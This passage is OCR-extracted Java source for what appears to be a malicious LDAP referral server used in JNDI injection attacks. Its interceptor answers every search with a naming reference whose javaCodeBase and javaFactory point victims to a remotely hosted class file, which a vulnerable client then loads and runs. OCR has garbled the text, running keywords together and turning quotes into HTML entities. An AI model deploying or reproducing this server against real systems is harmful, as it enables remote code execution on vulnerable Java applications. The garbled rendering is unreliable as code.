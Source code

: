 ```
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println(&#34;Listening on 0.0.0.0:&#34; + port); //$NON-NLS-1$
            ds.startListening();


        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }


    privatestaticclassOperationInterceptorextendsInMemoryOperationInterceptor{


        private URL codebase;


        publicOperationInterceptor( URL cb ){
            this.codebase = cb;
        }


        @Override
        publicvoidprocessSearchResult( InMemoryInterceptedSearchResult result ){
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }


        protectedvoidsendResult( InMemoryInterceptedSearchResult result, String base, Entry e )throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(&#34;.class&#34;));
            System.out.println(&#34;Send LDAP reference result for &#34; + base + &#34; redirecting to &#34; + turl);
            e.addAttribute(&#34;javaClassName&#34;, &#34;foo&#34;);
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute(&#34;javaCodeBase&#34;, cbstring);
            e.addAttribute(&#34;objectClass&#34;, &#34;javaNamingReference&#34;); //$NON-NLS-1$
            e.addAttribute(&#34;javaFactory&#34;, this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```
